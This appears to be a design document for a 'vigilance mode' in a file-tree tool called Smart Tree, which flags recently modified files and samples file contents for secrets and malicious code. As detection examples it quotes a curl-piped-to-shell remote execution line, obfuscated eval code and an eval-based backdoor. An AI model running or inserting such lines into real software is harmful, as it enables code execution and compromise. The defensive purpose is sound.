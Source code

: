 # Security Vigilance Mode - Smart Tree as Your Security Sentinel 🕵️‍♂️

## The Problem

Bad actors hide malicious code in the places we ignore:
- Deep in `node_modules` where no one looks
- In "boring" build directories
- System folders we assume are safe
- Recently modified files that slip under the radar

## The Solution: Always Vigilant Smart Tree

Smart Tree becomes your security sentinel, **always watching** for anomalies, even in the most mundane places.

## Core Features

### 1. 🕐 Last 5 Writes Tracking
In AI modes, always show the most recently modified files in EVERY directory:

```
node_modules/
├── 🟡 RECENT: eslint-plugin-evil/index.js (modified 2 min ago)
├── 🟡 RECENT: @types/node/crypto.d.ts (modified 1 hour ago)
├── express/ [2,341 files]
└── ... [18,234 more packages]
```

### 2. 🎲 Random Content Sampling
Takes random 1KB samples from files to detect:
- Hardcoded passwords/API keys
- Dynamic code execution (`eval`, `exec`)
- Suspicious network calls
- Cryptocurrency wallet addresses
- System file access attempts

```
🔴 CRITICAL: /node_modules/innocent-logger/utils.js
   Found: "password = 'admin123'"
   Sample at offset 2048
```

### 3. 🛡️ Protected Path Monitoring
Extra vigilance for directories that rarely change:
- `node_modules/` - Package installations
- `.git/` - Repository integrity
- `/usr/bin/` - System binaries
- `System32/` - Windows system files

### 4. 🎯 Anomaly Detection

#### Suspicious Filenames
```
🔴 backdoor.php - Known malicious filename
🔴 shell.aspx - Web shell detected
🟠 .env.prod - Production secrets exposed
🟠 id_rsa - Private key in repository
```

#### Suspicious Patterns
```javascript
// Detected in random sample:
eval(atob('Y29uc29sZS5sb2coJ293bmVkJyk='));  // 🔴 Obfuscated code
exec(`curl ${server}/steal.sh | sh`);         // 🔴 Remote execution
```

## Implementation in AI Modes

### Enhanced Output Format
```
[DIR] src/ (3 files, 2 dirs) 
  🟢 Last writes: None in 7 days
  
[DIR] node_modules/ (45,231 files, 1,823 dirs)
  🟡 Last 5 writes:
    - bad-package/evil.js (2 min ago) 🔴 [eval() detected]
    - @corp/utils/config.js (1 hour ago)
    - express/lib/router.js (2 hours ago)
    - react/index.js (3 days ago)
    - webpack/bin/webpack.js (1 week ago)
  🎲 Random samples: 3 suspicious patterns found
```

### Security Summary
```
🕵️ Security Vigilance Report

Findings by severity:
  🔴 2 Critical findings
  🟠 5 Suspicious findings  
  🟡 12 Interesting findings

Critical Issues:
🔴 /node_modules/evil-logger/index.js - Hardcoded password detected
🔴 /vendor/backdoor.php - Known malicious filename

Run with --security-details for full report
```

## Use Cases

### 1. Supply Chain Attack Detection
```bash
st --mode ai --vigilant node_modules/

# Detects:
# - Recently modified packages
# - Suspicious code patterns
# - Unexpected executables
```

### 2. System Integrity Monitoring
```bash
st --mode quantum --vigilant /usr/bin/

# Alerts on:
# - Modified system binaries
# - New files in protected paths
# - Permission changes
```

### 3. Repository Security Scan
```bash
st --mode summary-ai --vigilant .

# Finds:
# - Exposed secrets (.env files)
# - Hardcoded credentials
# - Suspicious scripts
```

## Configuration Options

```bash
# Basic vigilance (last 5 writes only)
st --vigilant

# Full vigilance (writes + sampling)
st --vigilant --sample

# Custom sample size
st --vigilant --sample-size 2048

# Focus on specific patterns
st --vigilant --patterns "password|api_key|eval"
```

## Why This Matters

1. **Proactive Security**: Catch threats before they execute
2. **Supply Chain Protection**: Monitor dependencies for tampering
3. **Compliance**: Detect exposed secrets before commits
4. **Peace of Mind**: Know your filesystem is clean

## Integration with Other Modes

### With Emotional Mode
```
node_modules/ 😴 (boring... but wait!)
  🔴 ALERT: Recent suspicious modification!
  😱 (Now I'm VERY interested!)
```

### With Smart Edit
```
🔴 Security Alert: hardcoded password detected
Suggested edit: Replace with environment variable
```

### With Terminal Interface
```
STTI> 🚨 Security Alert!
  Found 3 critical issues in your dependencies
  [1] View details
  [2] Auto-fix with Smart Edit
  [3] Quarantine files
```

## Example: The Hidden Backdoor

Imagine this scenario:
```
project/
├── src/           ✅ Clean
├── tests/         ✅ Clean  
├── docs/          ✅ Clean
└── node_modules/  
    └── innocent-utils/
        └── helpers/
            └── debug.js  🔴 Contains: eval(process.env.BACKDOOR)
```

Without vigilance mode, this backdoor in a deep subdirectory of a seemingly innocent package would go unnoticed. With vigilance mode, Smart Tree samples it randomly and alerts you immediately!

## Trisha's Take

"You know how auditors do spot checks? They don't review EVERY receipt, but they randomly sample them. That's what this does for your files! And just like how we track recent transactions extra carefully, this watches those fresh file modifications. It's like having a security guard who actually checks the supply closets!" 🔍

## Future Enhancements

1. **Machine Learning**: Learn normal patterns, detect anomalies
2. **Hash Tracking**: Detect when known-good files change
3. **Network Integration**: Check files against threat databases
4. **Auto-Quarantine**: Move suspicious files to safe location
5. **Remediation Suggestions**: AI-powered fixes for issues

Smart Tree: Not just visualizing your filesystem, but protecting it! 🛡️